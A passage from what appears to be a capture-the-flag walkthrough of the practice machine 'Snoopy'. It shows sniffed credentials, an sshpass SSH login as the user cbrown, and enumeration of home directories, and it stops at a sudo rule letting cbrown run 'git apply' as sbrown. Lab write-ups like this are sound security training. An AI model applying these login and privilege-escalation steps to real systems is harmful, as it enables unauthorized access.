 ```
```

The third to last line has the username cbrown and the password “sn00pedcr3dential!!!”.

#### Shell as cbrown

With those creds, I can SSH into Snoopy as cbrown:

```

oxdf@hacky$ sshpass -p 'sn00pedcr3dential!!!' ssh cbrown@snoopy.htb
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-71-generic x86_64)
...[snip]...
cbrown@snoopy:~$

```

## Shell as sbrown

### Enumeration

#### Home Dirs

cbrown’s home directory is empty:

```

cbrown@snoopy:~$ ls -la
total 28
drwxr-x--- 4 cbrown cbrown 4096 Apr 25 11:47 .
drwxr-xr-x 4 root   root   4096 Mar 19 04:54 ..
lrwxrwxrwx 1 root   root      9 Mar 26 00:52 .bash_history -> /dev/null
-rw-r--r-- 1 cbrown cbrown  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 cbrown cbrown 3771 Jan  6  2022 .bashrc
drwx------ 2 cbrown cbrown 4096 Feb 24 06:04 .cache
-rw-r--r-- 1 cbrown cbrown  807 Jan  6  2022 .profile
drwx------ 2 cbrown cbrown 4096 Feb 24 06:04 .ssh
lrwxrwxrwx 1 root   root      9 Mar 26 00:52 .viminfo -> /dev/null

```

There’s one other home directory, sbrown, and cbrown can’t access it:

```

cbrown@snoopy:/home$ ls
cbrown  sbrown
cbrown@snoopy:/home$ ls sbrown/
ls: cannot open directory 'sbrown/': Permission denied

```

#### Git

cbrown can run `git apply -v` on a single argument as sbrown:
